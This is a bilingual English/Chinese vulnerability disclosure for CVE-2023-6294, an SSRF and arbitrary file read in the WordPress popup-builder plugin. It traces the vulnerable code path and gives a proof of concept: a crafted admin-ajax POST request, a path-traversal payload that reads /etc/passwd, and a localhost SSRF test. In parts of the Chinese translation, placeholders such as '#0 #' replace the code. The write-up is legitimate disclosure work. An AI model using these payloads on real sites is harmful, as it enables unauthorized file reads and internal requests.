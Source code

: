 

# CVE-2023-6294：popup-builder <= 4.2.6 Admin+ SSRF & File Read|塞巴斯蒂安尼夫-0day.work

In this blog post I'll describe the details of CVE-2023-6294, a local file inclusion in WordPress' popup-builder plugin.  
在这篇博客文章中，我将描述CVE-2023-6294的细节，这是WordPress的popup-builder插件中的本地文件包含。

First of all, this vulnerability is only exploitable in *multi-site* WordPress installations with at least subsite administrator privileges.  
首先，此漏洞仅可在至少具有子站点管理员权限的多站点WordPress安装中利用。  
Successful exploitation can lead to SSRF and arbitrary file read.  
成功利用该漏洞可导致SSRF和任意文件读取。

# Theory 理论

Let's dive into the code to get a deeper understanding.  
让我们深入代码以获得更深入的理解。

The API action `sgpb_import_subscribers` takes the parameter `importListURL` and eventually passes it to `wp_remote_get()` and `file()`.  
API操作#0 #接受参数#1 #，并最终将其传递给#2 #和#3 #。

In `popup-builder/com/classes/Ajax.php` the constructor calls `$this->actions()`, which first evaluates the user's permissions using `$allowToAction = AdminHelper::userCanAccessTo();` and then registers the API action `add_action('wp_ajax_sgpb_import_subscribers', array($this, 'importSubscribers'));`.  
在#0 #中，构造函数调用#1 #，它首先使用#2 #评估用户的权限，然后注册API操作#3 #。

`userCanAccessTo()` is defined in `popup-builder/com/helpers/AdminHelper.php` and checks if the requesting user has the correct permissions and roles to access the API. So far, so good.  
`userCanAccessTo()` 在#1 #中定义，用于检查请求用户是否具有访问API的正确权限和角色。到目前为止，一切顺利。

Back in `Ajax.php`, the API's callback `importSubscribers()` is defined, where it first validates the nonce (`check_ajax_referer(SG_AJAX_NONCE, 'nonce');`) and then defines `$fileURL`: `$fileURL = isset($_POST['importListURL']) ? sanitize_text_field($_POST['importListURL']) : '';`  
回到#0 #，定义了API的回调#1 #，它首先验证随机数（#2 #），然后定义#3 #：#4 #  
Interestingly, there is a call to `sanitize_text_field`, but this WordPress built-in function does not sanitize the string for path traversal issues, only cross-site scripting and others.  
有趣的是，有一个对 `sanitize_text_field` 的调用，但是这个WordPress内置函数并没有清理路径遍历问题的字符串，只有跨站点脚本和其他问题。

The function then continues to capture the output buffer of the `importConfigView.php`:  
然后，该函数继续捕获 `importConfigView.php` 的输出缓冲区：

```php
ob_start();
require_once SG_POPUP_VIEWS_PATH.'importConfigView.php';
$content = ob_get_contents();
ob_end_clean();
```

This file is at `popup-builder/public/views/importConfigView.php` and it first passes `$fileURL` to `getFileFromURL`, which in turn will call `wp_remote_get()`: `$fileContent = AdminHelper::getFileFromURL($fileURL);`.  
这个文件位于 `popup-builder/public/views/importConfigView.php` ，它首先将 `$fileURL` 传递给 `getFileFromURL` ，然后调用 `wp_remote_get()` ： `$fileContent = AdminHelper::getFileFromURL($fileURL);` 。

Further, it executes the following line to read from `$fileURL`:  
此外，它执行以下行从 `$fileURL` 读取：  
`$csvFileArray = array_map('str_getcsv', file($fileURL));`

With that, the former allows to send HTTP requests to the URL provided in `importListURL` resulting in server-side request forgery (SSRF) and the latter allows to read arbitrary files by setting it to a file path.  
因此，前者允许向 `importListURL` 中提供的URL发送HTTP请求，导致服务器端请求伪造（SSRF），后者允许通过将其设置为文件路径来读取任意文件。

# Proof of Concept 概念验证

To see the vulnerabilities in action, first configure a multi-site WordPress installation with a separate subsite and non-superadmin account.  
要查看实际漏洞，请首先使用单独的子站点和非超级管理员帐户配置多站点WordPress安装。

Login as the subsite administrator and navigate to the popup-builder plugin in the menue. Create a dummy subscription, so that it shows up on the Import/Export settings page.  
以子站点管理员身份登录，然后导航到菜单中的弹出构建器插件。创建一个虚拟订阅，以便它显示在导入/导出设置页面上。

When submitting the import form, the following request will be send to the WordPress backend:  
当提交导入表单时，以下请求将被发送到WordPress后端：

```plain
POST /site2/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 156
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [cookie]
Connection: close

action=sgpb_import_subscribers&nonce=7ab37e2ddd&popupSubscriptionList=8&importListURL=<import-path>&beforeSend=
```

When the `importListURL` is set to `../../../../../../../../../../../../../../../../etc/passwd`, the output will contain the first line of the `/etc/passwd`'s contents:  
当 `importListURL` 设置为 `../../../../../../../../../../../../../../../../etc/passwd` 时，输出将包含 `/etc/passwd` 内容的第一行：

```plain
<div class="subFormItem__title">
	root:x:0:0:root:/root:/bin/bash				
</div>
```

[![popup-builder-path-traversal.png](assets/1706773853-f640019e372f909f2e8c0167a93e1545.png)](https://0day.work/content/images/2023/12/popup-builder-path-traversal.png)

Similarly, when we set `importListURL` to an URL, we can exploit the SSRF. For example, we start a simple HTTP server on localhost (`python -m http.server 1337`) and send a request to it with `importListURL=http://localhost:1337`. The output is:  
同样地，当我们将 `importListURL` 设置为URL时，我们可以利用SSRF。例如，我们在localhost（ `python -m http.server 1337` ）上启动一个简单的HTTP服务器，并使用 `importListURL=http://localhost:1337` 向其发送请求。输出为：

```plain
<div class="subFormItem__title">
	Hacked			
</div>
```

[![popup-builder-ssrf.png](assets/1706773853-22bd9c4f219a4197da4f55eb7d9e5d41.png)](https://0day.work/content/images/2023/12/popup-builder-ssrf.png)

# Timeline 时间轴

-   2023.06.28 - Initial discovery  
    2023.06.28 -首次发现
-   2023.07.03 - Report to plugin developers  
    2023.07.03 -向插件开发人员报告
-   2023.11.22 - Report to WPScan to assign CVE-ID  
    2023.11.22 -向WPScan报告以分配CVE-ID
-   2023.11.24 - Vulnerability acknowledged and CVE assigned  
    2023.11.24 -确认漏洞并分配CVE
-   ~ 2023.12.28 - New version released  
    ~ 2023.12.28 -新版本发布
-   2024.01.31 - Public disclosure  
    2024.01.31 -公开披露
